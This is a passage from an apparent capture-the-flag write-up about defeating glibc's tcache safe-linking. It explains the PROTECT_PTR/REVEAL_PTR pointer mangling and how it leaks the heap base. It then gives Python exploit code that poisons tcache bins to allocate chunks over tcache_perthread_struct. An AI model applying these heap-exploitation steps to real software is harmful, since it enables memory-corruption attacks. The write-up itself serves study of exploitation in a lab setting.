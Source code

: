 ```c:malloc.c
  tcache->entries[tc_idx] = REVEAL_PTR (e->next);
  --(tcache->counts[tc_idx]);
  e->key = 0;
  return (void *) e;
}
```

Compare with [glibc-2.31's malloc](https://elixir.bootlin.com/glibc/glibc-2.31/source/malloc/malloc.c#L2918), we notice that tcache chunk's fd is encrypted and decrypted with `PROTECT_PTR()` and `REVEAL_PTR()`

```c:malloc.c
#define PROTECT_PTR(pos, ptr) \
  ((__typeof (ptr)) ((((size_t) pos) >> 12) ^ ((size_t) ptr)))
#define REVEAL_PTR(ptr)  PROTECT_PTR (&ptr, ptr)
```

For example:



Instead of storing `tcache->entries[tc_idx]`, `tcache_put()` store 

```
(&e->next>>12)^(tcache->entries[tc_idx])
```

`&e->next>>12` is basically heap base, and `tcache->entries[tc_idx]` is equal to zero when the bin is empty (the first time a chunk is inserted into that bin).

So the expression is equal to `heap_base>>12`.

## Leak libc base and control tcache_perthread_struct

Now we have heap address.

> My first attempt during ctf is trying to insert a big chunk to unsorted bin and leak libc base. But even when I do the former, it used up 9 slot of notes and I couldn't perform another tcache poisoning to point to the big chunk and leak libc base. 

After reading nyancat's writeup, I notice the existence of `tcache_perthread_struct` which is the first chunk to be allocated on heap. If we could control the tcache struct, we could perform a lot of magic.

First prepare tcache poisoning for 2 bins to allocate at `tcache_perthread_struct`. Note that we overwrite fd with `PROTECT_PTR(tcache_perthead_struct)` instead of the original pointer. 

```python
# tcache poisoning to alloc 2 chunks at tcache_perthead_struct
edit(0, 0x60, p64(0)*2)
edit(0, 0)
edit(0, 0x60, p64(protect(heap_base+0x10)))

edit(2, 0x70, p64(0)*2)
edit(2, 0)
edit(2, 0x70, p64(0)*2)
edit(2, 0)
edit(2, 0x70, p64(protect(heap_base+0x10)))
```
